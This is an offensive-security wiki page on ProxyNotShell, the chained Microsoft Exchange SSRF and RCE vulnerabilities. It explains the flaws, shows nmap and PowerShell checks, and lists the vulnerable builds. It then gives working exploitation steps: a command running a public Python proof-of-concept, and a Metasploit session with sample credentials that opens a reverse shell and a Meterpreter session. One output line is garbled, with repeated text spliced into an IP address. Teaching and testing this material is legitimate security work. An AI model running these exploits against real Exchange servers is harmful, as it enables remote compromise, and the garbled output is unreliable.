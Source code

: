 ```yaml
---
description: Chained CVE-2022-41040, CVE-2022-41082
---
```


# ProxyNotShell

## Theory

ProxyNotShell is identified with the following CVEs: CVE-2022–41040 and CVE-2022–41082. The vulnerabilities affect Microsoft Exchange on premises with an **Outlook Web App.**

**CVE-2022-41040** : SSRF\
This vulnerability allow attackers to send an arbitrary request with a controlled URI and controlled data to an arbitrary backend service with LocalSystem privilege. (Request is very similar to the [ProxyShell](proxyshell.md) one)

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><strong>CVE-2022-41040 - SSRF</strong><br></p></figcaption></figure>

**CVE-2022-41082** : RCE\
By abusing CVE-2022-41040 **authenticated** users may exploit CVE-2022-41082 to run arbitrary commands in vulnerable Exchange Servers.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><strong>CVE-2022-41082</strong> - RCE Request</p></figcaption></figure>

## Practice

{% tabs %}
{% tab title="Enumerate" %}
We can use the [proxynotshell\_checker.nse](https://github.com/CronUp/Vulnerabilidades/blob/main/proxynotshell_checker.nse) nmap script to scan a target

```bash
nmap -p80,443 --script="proxynotshell_checker.nse" $IP

443/tcp open  https
    |_proxynotshell_checker: Potentially vulnerable to ProxyNotShell (mitigation not applied).
```

If we have local access to the target running exchange, we can check it version using the following powershell command:

```powershell
#Method 1
PS> GCM exsetup |%{$_.Fileversioninfo}

#Method 2
PS> (Get-Command ExSetup.exe).FileVersionInfo.ProductVersion

ProductVersion   FileVersion      FileName                                                                             
--------------   -----------      --------                                                                             
15.02.0858.005   15.2.1118.20   C:\Program Files\Microsoft\Exchange Server\V15\bin\ExSetup.exe
```

We can now search for the exact Microsoft Exchange product version using [this microsoft link](https://learn.microsoft.com/fr-fr/exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019).\
\
Following versions are vulnerable :

| Version            | Vulnerable ProductVersion |
| ------------------ | ------------------------- |
| Exchange 2019 CU12 | < 15.2.1118.20            |
| Exchange 2019 CU11 | < 15.2.986.36             |
| Exchange 2016 CU23 | < 15.1.2507.16            |
| Exchange 2016 CU22 | < 15.1.2375.33            |
| Exchange 2013 CU23 | < 15.0.1497.32            |

{% hint style="info" %}
All versions before November 8, 2022 are vulnerable
{% endhint %}
{% endtab %}

{% tab title="Exploit" %}
We can use [testanull's python script](https://github.com/testanull/ProxyNotShell-PoC) to exploit this vulnerability

```bash
# Install dependecies
pip install requests_ntlm2 requests

#Exploit
python poc_aug3.py <host> <username> <password> <command>
```
{% endtab %}

{% tab title="Exploit - Metasploit" %}
A Metasploit module is available to exploit ProxyNotShell

{% hint style="info" %}
This exploit only support Exchange Server 2019
{% endhint %}

```bash
msf6 > use exploit/windows/http/exchange_proxynotshell_rce

msf6 exploit(windows/http/exchange_proxynotshell_rce) > set RHOSTS 192.168.159.11
RHOSTS => 192.168.159.11
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set USERNAME aliddle
USERNAME => aliddle
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set PASSWORD Password1!
PASSWORD => Password1!
msf6 exploit(windows/http/exchange_proxynotshell_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (175686 bytes) to 192.168.159.11
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 1We can use the We can use the We can use theWe can use the92.168.159.11:7290) at 2022-11-18 17:32:18 -0500

meterpreter > 
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.rezilion.com/blog/proxyshell-or-proxynotshell-lets-set-the-record-straight/" %}

{% embed url="https://www.picussecurity.com/resource/blog/proxynotshellcve-2022-41040-and-cve-2022-41082-exploits-explained" %}
